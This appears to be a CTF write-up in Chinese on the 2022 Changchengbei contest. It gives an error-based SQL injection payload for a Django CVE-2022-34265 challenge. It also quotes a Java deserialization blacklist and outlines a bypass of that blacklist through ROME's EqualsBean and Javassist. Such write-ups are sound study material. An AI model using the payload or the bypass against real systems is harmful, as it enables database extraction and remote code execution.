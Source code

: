 # 2022长城杯

# web

## djangogogo

CVE2022-34265

?name={{}}

发现字段名sale_datetime,结合CVE进行报错注入

?name=year+from sale_datetime))+and+updatexml(1,concat(1,(select database()),1),1)—

![Untitled](attachments/Untitled%208.png)

## b4bycoffee
jar包解压开之后，依赖项中有rome1.7猜测考察的是rome反序列化链

AntObjectInputStream
```java
  
package com.example.b4bycoffee.tools;  
  
import com.rometools.rome.feed.impl.ObjectBean;  
import com.rometools.rome.feed.impl.ToStringBean;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import java.io.IOException;  
import java.io.InputStream;  
import java.io.InvalidClassException;  
import java.io.ObjectInputStream;  
import java.io.ObjectStreamClass;  
import java.util.ArrayList;  
import java.util.List;  
import javax.management.BadAttributeValueExpException;  
  
public class AntObjectInputStream extends ObjectInputStream {  
    private List<String> list = new ArrayList();  
  
    public AntObjectInputStream(InputStream inputStream) throws IOException {  
        super(inputStream);  
        this.list.add(BadAttributeValueExpException.class.getName());  
        this.list.add(ObjectBean.class.getName());  
        this.list.add(ToStringBean.class.getName());  
        this.list.add(TemplatesImpl.class.getName());  
        this.list.add(Runtime.class.getName());  
    }  
  
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {  
        if (this.list.contains(desc.getName())) {  
            throw new InvalidClassException("Unauthorized deserialization attempt", desc.getName());  
        } else {  
            return super.resolveClass(desc);  
        }  
    }  
}
```
明显的一个黑名单，ban掉了rome链中的重要类，但是在CoffeeBean中明显设置了一个ToStringBean的平替来实现defineClass
这里使用EqualsBean.class的beanHashCode触发toString
黑名单还ban掉了`TemplatesImpl`，那么这里需要使用别的方法来加载字节码了，发现很多师傅的博客是在cc2的时候有ClassPool的使用
这里给一个关于Javassist动态变成的博客，[Java安全之Javassist动态编程 - nice_0e3 - 博客园 (cnblogs.com)](https://www.cnblogs.com/nice0e3/p/13811335.html)

# misc

## 签名簿

签字拿flag